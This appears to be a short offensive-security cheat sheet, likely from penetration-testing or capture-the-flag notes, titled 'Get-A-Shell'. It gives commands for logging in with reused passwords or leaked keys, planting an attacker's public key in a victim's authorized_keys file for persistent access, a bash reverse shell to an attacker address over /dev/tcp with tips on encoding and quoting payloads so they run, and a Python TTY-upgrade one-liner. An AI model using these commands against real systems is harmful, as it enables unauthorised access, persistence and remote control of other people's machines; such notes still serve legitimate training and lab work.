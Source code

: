 ```yaml
---
sort : 1
---
```


# Get-A-Shell 


## SSH 

### Password Reuse Misconfiguration OR Private Key Leakage : 

```bash
$ ssh Username@Host
    password : ******* 

$ ssh -i PrivateKey Username@Host
```


### Connecting Via SSH is Better ? (.ssh)

```bash
# On the victim machine

$ mkdir ".ssh"; cd .ssh ; touch authorized_keys
```

```bash
# On the attacker machine

$ cd /tmp; ssh-keygen  

# Generating public/private rsa key pair.
Enter file in which to save the key (/home/o54ma/.ssh/id_rsa): TmpKey # file name to save the key 
Enter passphrase (empty for no passphrase): 						  # no password 
Enter same passphrase again: 								          # no password 


$ cat TmpKey.pub | xclip -selection c                                 # copy the public key

```

```bash
# Back on the victim machine

$ echo "`CTRL+V`" >> authorized_keys
```

```bash
# Back on the attacker machine

ssh -i TmpKey Username@Host
```







## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the shell doesn't work, why ?? 

* if it is a bash reverse shell, e.g. bash -i >& /dev/tcp/10.10.x.x/1234 0>&1 , try precede it with `bash -c` 

* try URL encoding / double URL encoding

* quotations conflict, how to deal with it ?? 

    * embrace the whole payload with double qoutes, then escape the inside ones
    
    * there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```


# Spawn a TTY shell 

python3 -c 'import pty; pty.spawn("/bin/bash")'